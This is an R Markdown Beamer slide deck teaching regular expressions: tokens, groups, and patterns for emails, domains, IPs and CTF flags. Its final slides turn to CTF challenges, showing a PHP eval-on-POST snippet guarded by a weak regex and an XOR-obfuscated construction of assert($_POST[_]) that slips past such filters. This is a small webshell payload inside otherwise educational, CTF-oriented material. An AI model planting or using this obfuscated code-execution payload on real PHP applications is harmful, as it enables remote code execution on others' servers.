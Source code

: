 ```yaml
---
title: "Regex Rump"
subtitle: "Or how to stop using 4 .split() when doing python"
author: "DaVinciCode"
date: "20/01/2021"
output:
  beamer_presentation:
    theme: "Madrid"
    colortheme: "beaver"
    fonttheme: "structurebold"
    latex_engine: xelatex
    includes:
      in_header: header.tex
classoption: "aspectratio=169"
---
```


```r
library(knitr)
knitr::opts_chunk$set(tidy.opts = list(width.cutoff = 60), tidy = TRUE)
```




# Regex (Regular expression)
```r
include_graphics("images/61uxl1.jpg")
```


# Intro

## Patterns?
- emails
- domains names
- ip addresses
- phone numbers
- flags?
- etc...

# To follow along
https://regex101.com/

# Tokens
Python tokens, because yes, like sign language, people thought "why not make 30+ regex different flavors"
```r
include_graphics("images/61v0zd.jpg")
```

# Tokens
## Matching strings
```
^     => Start of a string
$     => End of a string
[abc] => match either a b or c
[a-c] => Match everything between a and c
.     => Match every single char
```
## Numeration
```
?     => Match zero or one
+     => one or more
*     => zero or more
{n}   => match n time
{n,m} => match between n and m times
```

# More tokens
## Special chars
```
\s    => Whitespace chars
\S    => Non-WhiteSpace chars
\w    => Word char
\d    => Digit
\b    => Word boundary
```

## Groups
```
(?:...)  => Matching group
(...)    => Group
(?#...)  => Comment group
(?=...)  => Positive lookahead
(?!...)  => Negative lookahead
(?<=...) => Positive lookbehind
(?<!...) => Negative lookbehind 
```

# Patterns
```r
include_graphics("images/regex.png")
```

# Patterns

## Patterns
```python
# emails
regex = re.compile(r'''([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+
(\.[A-Z|a-z]{2,})+''')
# domains names
regex = r'''(([\da-zA-Z])([_\w-]{,62})\.){,127}(([\da-zA-Z])[_\w-]{,61})?
([\da-zA-Z]\.((xn\-\-[a-zA-Z\d]+)|([a-zA-Z\d]{2,})))'''
# ip addresses
regex = """^((25[0-5]|2[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])\.){3}(25[0-5]|2
[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])$"""
# flags?
regex = r"dvCTF{\S{3,}}"
```


# More stuff no know by heart?
## Options/Modifiers
```
i => case insensitive
m => multiline
s => single line
e => eval
...
```

# Please stop, I can only learn so much
```r
include_graphics("images/an2lhgcr9kc61.png")
```

# CTF challs
```r
include_graphics("images/61yti3.jpeg")
```

# CTF challs
Get easy RCE
```php
preg_replace(patterns, replacements, input, limit, count)
```
```r
include_graphics("images/preg_replace.JPG")
```

# Learn regex to bypass regex

## Know your regex
```php
if (!preg_match('\[a-z0-9]/si',$_POST['cmd'])) {
  eval($_POST['cmd']);
}
else
{
  echo 'Nope';
}
```

## Make php use XOR 
```php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```




# Thank you
```r
include_graphics("images/gu4n3392l4w61.png")
```